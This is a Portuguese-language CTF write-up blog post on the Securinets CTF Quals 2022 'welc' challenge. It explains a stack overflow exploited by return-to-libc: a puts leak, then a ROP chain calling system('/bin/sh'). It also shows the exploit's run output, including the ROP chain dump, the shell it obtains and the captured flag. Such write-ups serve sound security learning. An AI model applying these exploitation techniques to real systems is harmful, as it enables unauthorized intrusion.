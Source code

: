 ```yaml
---
layout: default
title: Welcome - [Securinets CTF Quals 2022] - Return to libc com pwntools
date: 2022-04-11 20:53
author: obrerodrigues
comments: true
categories: [CTFs]
---
```

**Link para o challenge: https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/Securinets_CTF_Quals_2022/1_welc**

Um clássico stack overflow. O binário não tem **stack canaries** nem **PIE**, mas está com **NX** ligado, então nada de shellcode. Por ter vindo uma libc junto do challenge, um ataque **return-to-libc** é facilitado e possível mesmo que o servidor esteja com **ASLR** habilitado. Sabendo o que tenho e o que posso fazer foi só questão de pôr em prática:

* Primeiro obtenho um leak do endereço de puts na libc. Consigo fazer isso com facilidade porque sem PIE no binário posso utilizar todos os endereços do mesmo. Depois de obter o endereço de puts, reinicio o binário finalizando minha primeira rop chain com o endereço de \_start. 
* Com o leak, basta usar um pouco de matemática para calcular on-demand o endereço de qualquer função da libc e montar uma segunda rop chain para executar **system('/bin/sh')**, obter a shell e ler a flag.

Esse resumo pode ter parecido grego para o não iniciado, então para os novinhos recomendo o liveoverflow explicando que porra é ret2libc: https://www.youtube.com/watch?v=m17mV24TgwY

A execução e o código do exploit completo podem ser observados abaixo. Destaco a facilidade que é utilizar a pwntools para criar rop chains (e vários outros processos repetitivos manuais necessários para escrever um exploit, vale a pena aprender e dominar essa porra) e demonstro no código essa diferença. Tentei comentar o que achei interessante para complementar a postagem.

Executando:
```
b@vbm ~/c/s/pwn1> python3 xpl.py
[+] Opening connection to 20.216.39.14 on port 1237: Done
[*] '/home/b/ctf/securinets/pwn1/welc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './welc'
Zied likes degla b zbib ! what about you ?
[*] '/home/b/ctf/securinets/pwn1/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Leaked puts 0x7f4b74d56450
System address 0x7f4b74d242c0
/bin/sh address 0x7f4b74e865bd
0x0000:         0x40101a ret
0x0008:         0x401283 pop rdi; ret
0x0010:              0x0 [arg0] rdi = 0
0x0018:         0x401281 pop rsi; pop r15; ret
0x0020:              0x0 [arg1] rsi = 0
0x0028:      b'kaaalaaa' <pad r15>
0x0030:   0x7f4b74de6980
0x0038:         0x401283 pop rdi; ret
0x0040:   0x7f4b74e865bd [arg0] rdi = 139962060662205
0x0048:   0x7f4b74d242c0
Press enter to pwn...
Zied likes degla b zbib ! what about you ?
Enjoy the shell
[*] Switching to interactive mode
$ ls
flag.txt
welc
ynetd
$ cat flag.txt
Securinets{5d91d2e01b854fd457c1d8b592a19b38af6b4a33c6362b7d}
```

E o exploit:
<script src="https://gist.github.com/brerodrigues/9161ae24483d0e2f78aef8e6318088b1.js"></script>
